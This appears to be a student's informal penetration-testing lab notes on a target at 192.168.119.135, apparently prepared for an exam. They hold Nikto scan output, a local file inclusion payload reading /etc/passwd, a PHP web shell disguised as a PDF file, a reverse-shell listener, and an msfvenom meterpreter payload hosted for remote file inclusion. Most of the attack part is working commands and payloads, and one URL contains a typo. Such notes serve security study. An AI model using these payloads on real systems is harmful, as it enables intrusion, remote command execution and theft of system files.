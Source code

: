 ```
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3092: /login/: This might be interesting...
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3268: /images/: Directory indexing found.
+ Server may leak inodes via ETags, header found with file /icons/README, inode: 3472, size: 5108, mtime: Tue Aug 28 06:48:10 2007
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 8725 requests: 0 error(s) and 23 item(s) reported on remote host
+ End Time:           2021-03-12 20:48:20 (GMT-5) (29 seconds)
```
but found
```
http://192.168.119.13(5/index.php?page=../../../../../../../../../../etc/passwd%00
```
not be able to scan anything, 


Create a pdf file
``` php
%PDF-1.4
<?php
    system($_GET["cmd"]);
?>
```
the file goes to upload folder **how to know that?**

```
http://192.168.119.135/index.php?page=uploads/shell.pdf%00&cmd=whoami
```
%00 tell php ignore following content

### php reverse shell
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php  

add `%PDF-1.4` to make it looks like a pdf file    
modify ip and port in the script  

```
nc -nvlp 4444
```

get the shell now  
next step: privielege escalation  
find a folder you have full control  


# Remote File Inclusion
create malicious payload
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.119.132 LPORT=444 >> exploit.php
```
## Host a file
```
service apache2 stop
cd /var/www/html 
python -m SimpleHTTPServer 80
```
this one need to use metasploit handler to receive connection, so maybe use php-reverse-shell for exam  

